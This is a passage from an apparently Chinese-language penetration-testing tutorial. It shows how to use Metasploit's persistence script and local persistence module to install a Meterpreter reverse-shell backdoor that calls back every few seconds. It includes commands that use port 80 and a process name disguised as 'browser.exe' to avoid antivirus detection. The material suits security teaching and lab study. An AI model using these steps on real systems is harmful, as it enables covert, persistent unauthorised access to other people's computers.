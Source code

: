 `-P`选项将指定负载；再次强调，`windows/meterpreter/reverse_tcp`是一个非常好的负载，因此我们不需要修改它。`-S`选项用于启用系统权限；如前所述，我们没有系统权限，因此应该使用`-U`选项。然后，我们可以使用`-i`选项来设置后门尝试连接回我们的时间间隔；它将每隔 10、15 或 20 秒尝试连接——具体时间由我们指定。`-p`选项用于指定端口，而`-r`选项用于指定我们计算机的 IP。

要运行`persistence`，我们只需使用`run persistence`，`-U`（以用户权限启动），`-i`设置为`20`秒，然后使用`-p`，我们可能会选择`80`端口，因为如前所述，端口`80`看起来不容易引起怀疑。接着，我们可以使用`-r`来指定我们的 IP，假设是`10.0.2.15`。命令大致如下：

```
run persistence -U -i 20 -p 80 -r 10.0.2.15
```

显然，一旦我们运行这个，如果我们想要接收连接，我们必须在端口`80`（或者使用负载选择的端口）上启动 multi-handler。这个方法的问题是它会被杀毒软件检测到；因此，我们不会详细解释它。我们将解释这两种方法的结合体，这种方法不会被杀毒软件检测到，而且比使用 Veil-Evasion 更加稳健。

# 使用高级方法保持访问

在本节中，我们将使用之前创建的普通 HTTP 反向 Meterpreter 不可检测后门。我们将其作为服务注入，这样每次目标用户启动计算机时，它都会尝试以某些间隔连接回我们。为此，首先，我们将当前会话`background`。我们之前做过这个操作；可以使用`background`并继续与编号为`2`的会话交互。

我们将`use`一个模块，它类似于 Metasploit 附带的 multi-handler 模块，名为`exploit/windows/local/persistence`。我们将查看它的选项，看看需要配置什么。在以下截图中，我们可以看到与 Metasploit 服务中看到的类似选项：

![](img/017ea596-8c76-439a-b1e8-dfcb39250b8c.png)

首先是目标将尝试连接回我们的秒数——即`DELAY`。我们将其保持为`10`秒——因此，每`10`秒，目标计算机将尝试连接回我们。现在，`EXE_NAME`是连接响应的进程名，我们将其设置为浏览器，以减少被检测的可能性；因此，我们将`EXE_NAME`设置为`browser.exe`。命令如下：

```
set EXE_NAME browser.exe
```

载荷或后门将被安装的`PATH`将保持不变，`REG_NAME`（注册表项）也将保持不变。现在，这非常重要：我们需要指定在哪个会话上运行 exploit。在这个例子中，我们使用会话编号`2`；那是我们的 Meterpreter 会话。如果我们使用`sessions -l`，它将列出所有可用的会话，我们将看到其`Id`编号为`1`：

![](img/c4265831-12d8-430d-8ff8-22db5035ac0b.png)
